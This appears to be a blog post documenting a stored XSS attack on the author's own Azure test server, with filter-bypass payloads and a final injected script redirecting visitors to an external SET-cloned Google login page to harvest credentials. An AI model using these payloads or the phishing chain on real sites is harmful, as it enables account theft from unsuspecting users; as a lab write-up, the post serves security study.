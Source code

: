 ```yaml
---
layout: post
title: XSS Attack
date: 2022-03-17
Author: Ali
categories: 
tags: [cyber security, web security]
comments: true
---
```


### ⚠<u>**This article is only used for cyber security research, please do not use it for improper purposes.**</u>⚠





## Attack Simulation Design



![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image01.png){width="5.768055555555556in" height="3.0833333333333335in"}



![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image02.png){width="5.768055555555556in" height="3.0833333333333335in"}



## Create WEB Server

#### In order to simulate the attack more intuitively, I chose to rent a windows 2019 in Azure to create a victim web server.

#### The specific steps will not be demonstrated, I believe everyone can do it.

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image001.png){width="5.768055555555556in" height="3.0833333333333335in"}





## Step 1: Start testing your website for XSS attacks





### **An XSS attack requires two conditions**:

- #### **Need to inject malicious code into web pages;**

- #### **These malicious codes can be successfully executed by the browser**





### 😎First try😎



### Testing:

#### Try the simplest test code first 

<script>alert(/XSS/)</script>

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image002.png){width="5.768055555555556in" height="4.117361111111111in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image003.png){width="5.400468066491689in" height="1.7501520122484688in"}





## Result :

#### The returned result shows that the write was successful and nothing happens on the web page.

#### F12 to view the code, it shows that the input content is filtered, the "script" tag is not executed on the web page, but is directly printed in the form of text.



![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image004.png){width="5.768055555555556in" height="1.511111111111111in"}













### 😎Second try😎



### Testing:

#### I want to test if the website has symbol filtering

%3cscript%3ealert(/XSS/)%3c/script%3e

#### HTML supports different encodings in many cases

####  like "<"  is equivalent to %3c and ">"  is equivalent to %3e.

#### This method can bypass some symbol filtering

![img ](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image006.png){width="5.768055555555556in" height="0.8555555555555555in"}





### Result :

#### From the results, < is not on the filter list.

#### An accident is that after several attempts, I found that although the web page did not filter" <>" but it filtered the brackets "()".



![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image005.png){width="5.768055555555556in" height="2.6944444444444446in"}







### 😎Third try 😎



### Testing:

#### From the results of the first attempt, the input content will be passed in the form of text, indicating that the input content is limited to a tag, and the analysis code can also find that all our content is in the <u>**"td"**</u> tag.



#### Try closing the tab this time，We need add “Textarea” and “td” into our code.

```html
<!--</textarea></td>%3cscr%3cscript%3eipt%3ealert(/xss/)%3c/scr%3c/script%3eipt%3e-->
```

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image007.png){width="5.768055555555556in" height="3.9555555555555557in"}



### Result :

#### The code we entered appeared directly on the web page, which is a successful signal

#### This shows that the code is indeed executed.



![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image008.png){width="5.768055555555556in" height="0.9854166666666667in"}





### 😎Fourth try：😎

### Testing:

### In the third attempt, the code was successfully executed, but there was no pop-up window specific to XXS attacks. 

### My thinking this time is to append the "Body" closing tag,

#### 





```html
</body\>\</textarea\>\</td\>\<svg\>\<script\>alert&#40/XSS/&#41\</script\>
```

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image009.png){width="5.768055555555556in" height="2.571527777777778in"}





### Result :

#### The XSS attack was successful and the code was successfully executed. 

#### After successful execution of XSS, all users browsing this web will be affected.

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image010.png){width="5.768055555555556in" height="3.15625in"}







## Step 2: Build a phishing website via SET 

#### The hacker uses the latest Kali system, 

#### we can use the SET attack to quickly create a phishing web page, and any results entered on the phishing web page will be returned to the SET server.

#### This time I used google's login page directly

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image013.png){width="5.768055555555556in" height="4.236111111111111in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image015.png){width="5.768055555555556in" height="3.277083333333333in"}



#### After the phishing website is completed, we need to map the webpage to the public network so that everyone on the Internet can access the phishing website.



![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image016.png){width="5.768055555555556in" height="3.4756944444444446in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image017.png){width="5.768055555555556in" height="1.3784722222222223in"}







## Implant malicious code

   

#### Use window.location.href=\"https://fubxzk.39nat.com\"; instead of alert&#40/XSS/&#41\

#### The final malicious code is：

```html
</body\>\</textarea\>\</td\>\<svg\>\<script\>window.location.href=\"https://fubxzk.39nat.com\";\</script\>
```

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image020.png){width="5.768055555555556in" height="2.841666666666667in"}







#### If the user enters account information on the web page, the information will be sent directly to the SET server

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image021.png){width="5.768055555555556in" height="3.6444444444444444in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image022.png){width="5.768055555555556in" height="2.0368055555555555in"}



#### So far, An entire XSS attack is completed.

#### By the way,This is not my email address, and the password is also made up.

### and

# ⚠<u>**This article is only used for cyber security research, please do not use it for improper purposes.**</u>⚠



